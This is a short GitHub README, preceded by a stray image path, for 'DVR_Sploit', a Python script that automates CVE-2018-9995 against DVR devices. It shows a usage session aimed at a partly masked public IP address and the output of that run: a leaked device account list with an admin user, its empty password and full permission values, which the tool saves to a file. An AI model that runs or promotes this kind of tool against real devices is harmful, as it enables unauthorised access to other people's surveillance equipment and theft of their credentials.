 # DVR_Sploit
Simple python3 script to automate CVE-2018-9995

![dvrsploit](https://github.com/X3RX3SSec/DVR_Sploit/assets/141476851/7668e9ee-2881-4619-8903-4350a88334c0)

Requirements: requests (pip install requests)

Usage:
root@fuckmachine:~# python3 dvrsploit.py            
Enter DVR host: 81.215.xxx.xxx
Enter DVR port: 88
Output:
Device list:
{"result":0,"list":[{"uid":"admin","pwd":"","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
Device list appended to dvr_output.txt
